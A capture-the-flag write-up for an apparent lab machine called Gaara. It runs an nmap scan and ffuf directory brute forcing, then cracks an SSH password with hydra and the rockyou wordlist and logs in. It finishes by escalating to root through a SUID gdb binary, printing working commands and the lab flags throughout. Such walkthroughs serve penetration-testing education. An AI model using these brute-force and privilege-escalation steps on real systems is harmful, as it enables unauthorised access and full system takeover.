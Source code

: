 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -T5 -Pn -A -p- 192.168.205.142
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-02 13:54 IST
Warning: 192.168.205.142 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.205.142
Host is up (0.073s latency).
Not shown: 62577 closed tcp ports (conn-refused), 2956 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.91 seconds
```

There are two open ports:

| Port | Service |
| :-: | :-: |
| 22   | ssh     |
| 80   | http    |

### Web enumeration

Let's visit the web server through our browser.

![1](https://github.com/Kunull/Write-ups/assets/110326359/54c15681-c889-4f61-baac-2cb77914a936)

Nothing useful, just a picture of the anime character [Gaara](https://en.wikipedia.org/wiki/Gaara).

### Directory enumeration

We can use `ffuf` to brute force the web directories on the web server.

```
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.205.142:80/FUZZ | grep "Status: 200"
________________________________________________

Cryoserver              [Status: 200, Size: 327, Words: 1, Lines: 303, Duration: 75ms]
:: Progress: [220560/220560] :: Job [1/1] :: 546 req/sec :: Duration: [0:10:12] :: Errors: 0 ::
```

If we visit the `/Cryoserver` page, we can find the following information.

![4](https://github.com/Kunull/Write-ups/assets/110326359/f6d40651-cb2d-498d-bc72-f2e0edda2ed7)

So, there are three other directories.

However, all of these include some story regarding the [Gaara](https://en.wikipedia.org/wiki/Gaara) character and serve asrabit holes.


## Exploitation

### Brute forcing SSH password

Now that we know the machine is based on [Gaara](https://en.wikipedia.org/wiki/Gaara), we can assume that there must be a `gaara` user.

Let's brute force the passwords for this `gaara` user.

```
$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://192.168.205.142
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-02 14:08:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.205.142:22/
[STATUS] 115.00 tries/min, 115 tries in 00:01h, 14344286 to do in 2078:53h, 14 active
[22][ssh] host: 192.168.205.142   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-02 14:10:57
```

| Username | Password  |
| :-: | :-: |
| gaara    | iloveyou2 |

### SSH login

```
$ ssh gaara@192.168.205.142
The authenticity of host '192.168.205.142 (192.168.205.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.205.142' (ED25519) to the list of known hosts.
gaara@192.168.205.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gaara@Gaara:~$ 
```


## Post Exploitation
### local.txt

Let's `cat` the `local.txt` flag.

```
gaara@Gaara:~$ cat local.txt
c728c520ab0c97b7ea9820a1b73a0254
```

### Privilege Escalation

#### SetUID binaries

We can use the `find` command to search for files on the system where the `setuid` bit is set.

```
gaara@Gaara:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

We can now use on of these files to escalate our privilege.

Let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/gdb/#suid) to search for an exploit for the `gdb` utility. 

![3](https://github.com/user-attachments/assets/1e696a96-6647-4730-8162-bbf32d570d32)

Since we want a Bash shell, we have to modify the exploit slightly.

```
gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit
```

```
gaara@Gaara:~$ gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
sh-5.0# whoami
root
```

### proof.txt

We can now `cat` the `proof.txt` flag.

```
sh-5.0# cat /root/proof.txt
2c39a99c3217a56762321da6bf9860b3
```
